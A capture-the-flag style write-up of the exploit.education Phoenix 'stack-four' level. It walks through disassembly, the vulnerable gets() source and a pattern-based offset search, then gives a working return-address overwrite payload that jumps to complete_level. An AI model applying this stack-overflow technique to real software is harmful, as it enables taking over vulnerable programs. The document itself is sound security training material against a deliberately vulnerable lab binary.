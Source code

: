 # PHOENIX - stack 4

Lets list the files using ```ls -la```,

```
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 05:25 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6096 Jun  6 05:25 stack-four
```

Lets check the file type of the binary using ```file``` command,

```
user@phoenix-amd64:~$ file stack-four
stack-four: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

It is a ```not stripped``` binary

Now,lets try running it

```
user@phoenix-amd64:~$ ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
monish
and will be returning to 0x40068d
user@phoenix-amd64:~$ ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
and will be returning to 0x40068d
```

So there is something fishy with ```0x40068d```

Lets use debugger on this binary,

Viewing functions

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400438  _init
0x0000000000400460  printf@plt
0x0000000000400470  gets@plt
0x0000000000400480  puts@plt
0x0000000000400490  exit@plt
0x00000000004004a0  __libc_start_main@plt
0x00000000004004b0  _start
0x00000000004004c6  _start_c
0x00000000004004f0  deregister_tm_clones
0x0000000000400520  register_tm_clones
0x0000000000400560  __do_global_dtors_aux
0x00000000004005f0  frame_dummy
0x000000000040061d  complete_level
0x0000000000400635  start_level
0x000000000040066a  main
0x00000000004006a0  __do_global_ctors_aux
0x00000000004006e2  _fini
```

It has three distinguishable functions

```
0x000000000040061d  complete_level
0x0000000000400635  start_level
0x000000000040066a  main
```

Disassembling ```main()```,

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000040066a <+0>:	  push   rbp
   0x000000000040066b <+1>:	  mov    rbp,rsp
   0x000000000040066e <+4>:	  sub    rsp,0x10
   0x0000000000400672 <+8>:	  mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:	mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:	mov    edi,0x400750
   0x000000000040067e <+20>:	call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:	mov    eax,0x0
   0x0000000000400688 <+30>:	call   0x400635 <start_level>
   0x000000000040068d <+35>:	mov    eax,0x0
   0x0000000000400692 <+40>:	leave
   0x0000000000400693 <+41>:	ret
End of assembler dump.
```
```main()``` calls ```start_level()```


Disassembling ```start_level()```,

```
pwndbg> disassemble start_level
Dump of assembler code for function start_level:
   0x0000000000400635 <+0>:	  push   rbp
   0x0000000000400636 <+1>:	  mov    rbp,rsp
   0x0000000000400639 <+4>:	  sub    rsp,0x50
   0x000000000040063d <+8>:	  lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:	mov    rdi,rax
   0x0000000000400644 <+15>:	call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:	mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:	mov    rsi,rax
   0x0000000000400658 <+35>:	mov    edi,0x400733
   0x000000000040065d <+40>:	mov    eax,0x0
   0x0000000000400662 <+45>:	call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:	nop
   0x0000000000400668 <+51>:	leave
   0x0000000000400669 <+52>:	ret
End of assembler dump.
```
```start_level()``` calls ```complete_level()```


Disassembling ```complete_level()```,

```
pwndbg> disassemble complete_level
Dump of assembler code for function complete_level:
   0x000000000040061d <+0>:	  push   rbp
   0x000000000040061e <+1>:	  mov    rbp,rsp
   0x0000000000400621 <+4>:	  mov    edi,0x4006f0
   0x0000000000400626 <+9>:	  call   0x400480 <puts@plt>
   0x000000000040062b <+14>:	mov    edi,0x0
   0x0000000000400630 <+19>:	call   0x400490 <exit@plt>
End of assembler dump.
```

Lets take a look at source code for proper understanding,

```
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

The main part of this program is,

```
void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}
```

Here ```ret = __builtin_return_address(0);``` points the return address of the program when it is being executed in stack

And there is no link between ```start_level()``` and ```complete_level()```

The only way we can call ```complete_level()``` is to point its address into the ```ret```


In ```start_level()```,

```
   0x000000000040063d <+8>:	lea    rax,[rbp-0x50]
```
This is used to load the buffer space for ```buffer```

```
0x000000000040064d <+24>:	mov    QWORD PTR [rbp-0x8],rax
```
This is used to store the return address ```ret```

Checking the security mitigations of the binary,

```
ra@moni~/E/p/stack4> checksec  stack-four
[*] '/home/ra/ExpDevPractice/phoenix/stack4/stack-four'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    RPATH:    '/opt/phoenix/x86_64-linux-musl/lib'
```

So we can overflow the binary as there are no security mitigations in it

We have to crash the binary by junk data in ```buffer``` and the address of ```complete_level()``` in ```ret```

Lets try crashing it

Creating a random patten for fuzzing,

```
ra@moni/o/m/e/f/t/exploit> ./pattern_create.rb -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Passing this random pattern as input in binary would make it crash,

```
user@phoenix-amd64:~$ python -c "print('Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A')" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x3164413064413963
Segmentation fault
```

So we overwrote our ```ret``` return address as ```0x3164413064413963``` from ```0x40068d```

Lets try to find the offset of our return address ```ret```,

```
ra@moni/o/m/e/f/t/exploit> ./pattern_offset.rb -q 0x3164413064413963
[*] Exact match at offset 88
```

We came to know that after 88th offset from buffer we can enter into ```ret```

Lets exploit this binary now,

```
user@phoenix-amd64:~$ python -c "print('A'*88+'BBBB')" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x42424242
Segmentation fault
```

```payload = junk(88bytes) + address of complete_level()```

Address of ```complete_level()``` = ```0x000000000040061d```

```
user@phoenix-amd64:~$ python -c "print('A'*88+'\x1d\x06\x40')" | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```

Done! we have completed "stack-four"




